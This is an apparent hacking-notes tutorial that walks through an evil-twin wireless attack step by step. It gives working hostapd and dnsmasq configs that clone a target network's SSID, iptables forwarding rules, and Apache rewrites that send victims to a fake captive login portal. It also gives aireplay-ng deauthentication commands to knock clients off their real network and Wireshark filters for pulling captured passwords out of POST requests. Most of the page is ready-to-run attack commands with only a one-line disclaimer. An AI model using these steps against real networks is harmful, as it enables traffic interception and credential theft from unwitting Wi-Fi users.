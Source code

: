 # Evil-Twin Attack



{% hint style="danger" %}
This is for educational purposes and only to be performed on networks you have permission to do so.
{% endhint %}

Basic info on Wireless can be found [here](broken-reference).\
\
This will be a walk through on performing an [Evil Twin wireless attack](https://www.varonis.com/blog/evil-twin-attack) and [Captive Portals](https://www.linksys.com/what-is-a-captive-portal.html).

An evil twin is a fake wireless access point(AP) that looks like a real one. The concept is to set up a malicious wireless network with the same SSID name as the target.

This is not required to have a WiFi Adapter that supports monitor mode, also known as packet injection. Though this will required if kicking clients off their network to connect to ours.

## Hardware

I myself have and recommend these adapters:

* [Alfa AWUS036ACM](https://www.amazon.com/Alfa-AWUS036ACM-Long-Range-Dual-Band-Wireless/dp/B073X6RL9D) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036ACHM](https://www.amazon.com/gp/product/B08SJBV1N3/ref=ox_sc_act_title_1?smid=A20G3A026MV70R\&psc=1) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036ACH](https://www.amazon.com/dp/B08SJC78FH?ref_=cm_sw_r_cp_ud_dp_PSZZG6J9X0XH40GXB685) <-- Capable of 2.4GHz and 5GHz (This more than likely \*will\* require driver installation)
* [Panda Wireless PAU09 N600](https://www.amazon.com/Panda-Wireless-PAU09-Adapter-Antennas/dp/B01LY35HGO) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036NEH](https://www.amazon.com/AWUS036NEH-Range-WIRELESS-802-11b-USBAdapter/dp/B0035OCVO6)
* [Alfa AWUS036NH](https://www.amazon.com/Alfa-AWUS036NH-802-11g-Wireless-Long-Range/dp/B003YIFHJY)
* [Panda Wireless PAU05](https://www.amazon.com/Panda-300Mbps-Wireless-USB-Adapter/dp/B00EQT0YK2)
* [TP-Link TL-WN722N](https://www.amazon.com/TP-Link-TL-WN722N-Wireless-network-Adapter/dp/B002SZEOLG)
* [Ralink USB WiFi RT5370](https://www.amazon.com/Ralink-RT5370-Raspberry-Adapter-Function/dp/B019XUDHFC)

You can also use a device such as [WiFi Pineapple](https://shop.hak5.org/products/wifi-pineapple). This primarily works on open networks.

First we install the prerequisites

```
sudo apt install -y dnsmasq and hostapd aircrack-ng
```

## Finding target

First we find our target, I will target "Open-WiFi" in this example. we use airodump for this

```
sudo airodump-ng (interface) 
```

<figure><img src="../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

Kill process that may interfere

```
sudo airmon-ng check kill
```

<figure><img src="../../.gitbook/assets/image (820).png" alt=""><figcaption></figcaption></figure>

now put the interface into monitor mode if we're deauthenticating a client.

```
sudo airmon-ng start (interface)
```

<figure><img src="../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

## Setup AP

Create `dnsmaqs.conf` file

```
# Set the wifi interface
interface=(interface)

# Set the IP range that can be given to clients
dhcp-range=10.0.0.10,10.0.0.100,255.255.255.0,8h

# Set the gateway IP address
dhcp-option=3,10.0.0.1

# Set DNS server address
dhcp-option=6,10.0.0.1

# Set Server
server=8.8.8.8

# logs
log-queries
log-dhcp

# Redirect all requests to 10.0.0.1
#address=/#/10.0.0.1

# Redirect google to 10.0.0.1
#address=/google.com/10.0.0.1
#address=/www.google.com/10.0.0.1
#address=/google.com/www.google.com.com/10.0.0.1
```

<figure><img src="../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

Note to uncomment lines. if we uncomment the `#address=/#/10.0.0.1` this will let clients connect but they will not get internet access as the pound sign(`#`) is a wildcard for dnsmasq. So they will connect to the AP, then immediately asked to sign-in with the Evil Portal that is setup.

So instead we can redirect websites back to our Evil Portal instead.

Create `hostapd.conf` and fill in with target info

```
interface=(interface)
driver=nl80211
ssid=(Target AP)
hw_mode=g
channel=(Target channel)
macaddr_acl=0
ignore_broadcast_ssid=0
```

<figure><img src="../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

Assign the interface a gateway and netmask

```
sudo ifconfig (interface) up 10.0.0.1 netmask 255.255.255.0
```

Add the routing table

```
sudo route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1
```

Setup an easy script for IP with:

```
sudo iptables --flush
sudo iptables --table nat --append POSTROUTING --out-interface (internet interface) -j MASQUERADE 
sudo iptables --append FORWARD --in-interface (wireless interface) -j ACCEPT 
sudo iptables -t nat -A POSTROUTING -j MASQUERADE
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```

<figure><img src="../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

I named mine IP-Tables.sh. Make it executable and run it

```
chmod +x IP-Tables.sh
sudo ./IP-Tables.sh
```

If you want the AP setup without using a captive portal, just run dnsmasq and hostapd

Start dnsmasq with

```
sudo dnsmasq -C (path/to/dnsmasq.conf)
```

Start hostapd with

```
sudo hostapd (path/to/hostapd.conf)
```

We can run the command with a -B at the end to push it to the background. Though if we do this, we don't see when a client connects

```
sudo hostapd (path/to/hostapd.conf) -B
```

### Captive Portals

Put your captive portal files, and put them in the `/var/www/html/` directory.

[Example Portals here](https://github.com/Th4ntis/Evil-Portals.git)

Edit `/etc/apache2/sites-enabled/000-default.conf` and add the following to the end

```
sudo nano /etc/apache2/sites-enabled/000-default.conf
```

```
<Directory "/var/www/html">
RewriteEngine On
RewriteBase /
RewriteCond %{HTTP_HOST} ^www\.(.*)$ [NC]
RewriteRule ^(.*)$ http://%1/$1 [R=301,L]

RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule ^(.*)$ / [L,QSA]
</Directory>
```

<figure><img src="../../.gitbook/assets/image (821).png" alt=""><figcaption></figcaption></figure>

Start the web server

```
sudo service apache2 start
```

Start dnsmasq with:

```
sudo dnsmasq -C (path/to/dnsmasq.conf)
```

Start hostapd AP with:

```
sudo hostapd (path/to/hostapd.conf)
```

We can run the command with a -B at the end to push it to the background. Though if we do this, we don't see when a client connects

```
sudo hostapd (path/to/hostapd.conf) -B
```

<figure><img src="../../.gitbook/assets/image (822).png" alt=""><figcaption></figcaption></figure>

Once we're ready, we can disconnect clients from their network to connect to ours with aireplay.

```
sudo aireplay-ng -0 0 -a (BSSID) (interface)
```

OR if we want to deauth a specific client:

```
sudo aireplay-ng -0 0 -a (bssid) -c (Client MAC Address) (interface)
```

the `-0 0` will send deauth packets continuously until stopped. we can change it to `-0 10` to send just 10 deauth packets.

<figure><img src="../../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>

## Post connection

Once they are connected, or even before, we can start intercepting traffic with whatever tools we want, like [Wireshark](broken-reference), [tshark](https://www.wireshark.org/docs/man-pages/tshark.html), [tcpdump](https://www.tcpdump.org/), etc. In this case I'll use wireshark on `wlan0`, the interface I was broadcasting from.

<figure><img src="../../.gitbook/assets/image (823).png" alt=""><figcaption></figcaption></figure>

As the user attempts to go to any page, they are taken to a login portal, asked enter a username/password on the portal and it will be captured.

We look for `HTTP Post Request` , then HTML Form URL Encoded, we will see their credentials.

<figure><img src="../../.gitbook/assets/image (824).png" alt=""><figcaption></figcaption></figure>

#### Wireshark to filter for packets

* `dns and ip.adr=(IP)` to see sites they are going to
* `frame contains (word)` will search for various words
* `http.request.method=="POST"` will show us login info.
